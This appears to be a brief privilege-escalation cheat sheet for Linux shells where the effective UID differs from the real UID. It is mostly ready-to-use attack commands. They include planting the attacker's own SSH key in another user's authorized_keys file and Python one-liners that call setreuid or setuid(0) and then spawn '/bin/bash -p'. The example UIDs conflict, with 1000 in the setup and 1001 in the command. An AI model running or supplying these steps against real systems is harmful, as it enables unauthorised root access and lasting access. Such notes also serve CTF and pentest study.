 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid
## ===============
1) using public key authentication technique to escape
-check the .ssh if we have write permission on authorized_keys
-write our own public key into the authorized_keys file
-ssh into the user with our own private key
//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape
/*
current setup
-------------
euid user: 1000(Eve)
uid user: 33 (www-data)
*/

rough idea how it works executing step by step:

python
import os
os.setreuid(1000,1000)	#setreuid(ruid,euid)
os.system("/bin/bash -p")

one line command:
python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'

## For root euid
## =============
1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:

python
import os
os.setuid(0)
os.system("/bin/bash -p")

one line command:
>>python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'

